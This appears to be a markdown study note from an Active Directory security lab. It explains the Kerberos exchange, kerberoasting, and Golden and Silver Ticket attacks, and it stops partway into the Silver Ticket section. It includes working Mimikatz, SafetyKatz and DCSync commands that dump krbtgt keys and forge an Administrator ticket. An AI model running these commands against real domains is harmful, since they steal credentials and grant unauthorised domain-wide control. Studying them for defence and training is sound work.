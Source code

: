 # Kerberos Working
- AS-REQ: The client asks TGT from the authentication server by sending an encrypted timestamp along with the request.
- AS-REP: The authentication server verifies if it is a known client and if it is a known client it sends an encrypted TGT as confirmation.(This TGT is encrypted using password hash of krbtgt account)
- TGS-REQ: The client sends the encrypted TGT along with SPN(alex\MYSQLcomputer$@domain.local) to Ticket granting server as a proof that he/she/it is a known client and wants to access some service(SPN).
- TGS-REP: The ticket granting server verifies the TGT and sends a service ticket for that service(service ticket is encrypted with ntlm hash of the service and can be harvested and cracked offline which is known as kerberoasting attack also the TGS doesn't check if client has access to the requested service)
- AP-REQ: Now, the client has ST he/she/it sends ST to that service requesting for access.
-AP-REP: The service verifies if the client is allowed to access it or not by decrypting the ST and grants or denies access.

# Golden Ticket
In second step(AS-REP) since the TGT which is sent to the client as a proof that this client/service/computer exists on the domain and is legitimate and this TGT is encrypted with hash of krbtgt account, If we have hash of krbtgt account we can forge TGT ourselves that means we can create our own TGT impersonating as any client(ex: Domain Admin), service or computer.

- First extract aes key of krbtgt account on DC using mimikatz,safetykatz or any other variant.
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```
- Using DCSync feature for getting the same AES keys as above with DA privilege or user with replication rights
```
SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
- After getting the aes key for krbtgt run the following on any machine that has connectivity with DC. From that machine later winrs to dc since /ptt means to inject the ticket into current powershell process can also use /ticket to save it to a file for later use.
```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
- You can get SID of domain using PowerView itself

# Silver Ticket
Golden ticket provides access to any machine while silver ticket provides access to particular service on a particular machine for which the silver ticket is created. Silver ticket means forging our own service ticket since Service ticket is signed and encrypted by the hash of service account(machine account in this case DCORP-DC$ since service runs on machine) if we get hash of machine account on which that particular service is running on we can forge our own service ticket and access that service on that machine later. So if we have administrative access on any machine 
